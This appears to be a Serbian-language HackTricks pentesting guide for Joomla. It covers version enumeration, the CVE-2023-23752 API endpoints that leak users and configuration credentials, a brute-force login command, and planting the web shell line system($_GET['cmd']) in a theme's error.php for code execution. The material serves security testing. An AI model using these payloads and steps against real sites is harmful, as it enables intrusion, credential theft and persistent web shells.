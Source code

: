 # Joomla

{{#include ../../banners/hacktricks-training.md}}


### Joomla Statistika

Joomla prikuplja neke anonimne [statistike korišćenja](https://developer.joomla.org/about/stats.html) kao što su raspodela verzija Joomla, PHP i baza podataka, kao i operativni sistemi servera koji se koriste na Joomla instalacijama. Ovi podaci se mogu pretraživati putem njihovog javnog [API](https://developer.joomla.org/about/stats/api.html).
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeracija

### Otkriće/Prikupljanje informacija

- Proverite **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
- robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
- README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Verzija

- U **/administrator/manifests/files/joomla.xml** možete videti verziju.
- U **/language/en-GB/en-GB.xml** možete dobiti verziju Joomle.
- U **plugins/system/cache/cache.xml** možete videti približnu verziju.

### Automatski
```bash
droopescan scan joomla --url http://joomla-site.local/
```
U[ **80,443 - Pentesting Web Methodology je sekcija o CMS skenerima**](./#cms-scanners) koji mogu skenirati Joomla.

### API Neautentifikovana Otkrivanje Informacija:

Verzije od 4.0.0 do 4.2.7 su podložne neautentifikovanom otkrivanju informacija (CVE-2023-23752) koje će izbaciti kredencijale i druge informacije.

- Korisnici: `http://<host>/api/v1/users?public=true`
- Konfiguracioni fajl: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Modul**: `scanner/http/joomla_api_improper_access_checks` ili ruby skripta: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Možete koristiti ovu [skriptu](https://github.com/ajnik/joomla-bruteforce) da pokušate brute force prijavu.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Ako ste uspeli da dobijete **admin kredencijale**, možete **RCE unutar njega** dodavanjem dela **PHP koda** za dobijanje **RCE**. To možemo uraditi **prilagođavanjem** **teme**.

1. **Kliknite** na **`Templates`** u donjem levom uglu pod `Configuration` da otvorite meni sa temama.
2. **Kliknite** na ime **teme**. Izaberimo **`protostar`** pod naslovom kolone `Template`. Ovo će nas odvesti na stranicu **`Templates: Customise`**.
3. Na kraju, možete kliknuti na stranicu da otvorite **izvor stranice**. Izaberimo stranicu **`error.php`**. Dodaćemo **PHP jedan-liner za dobijanje izvršenja koda** na sledeći način:
1. **`system($_GET['cmd']);`**
4. **Sačuvaj i zatvori**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

- [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla skripta za eksploataciju koja **povećava XSS na RCE ili druge kritične ranjivosti**. Za više informacija pogledajte [**ovaj post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Pruža **podršku za Joomla verzije 5.X.X, 4.X.X i 3.X.X, i omogućava:**
- _**Povećanje privilegija:**_ Kreira korisnika u Joomli.
- _**(RCE) Uređivanje ugrađenih tema:**_ Uređuje ugrađene teme u Joomli.
- _**(Prilagođeno) Prilagođene eksploatacije:**_ Prilagođene eksploatacije za dodatke trećih strana za Joomlu.


{{#include ../../banners/hacktricks-training.md}}
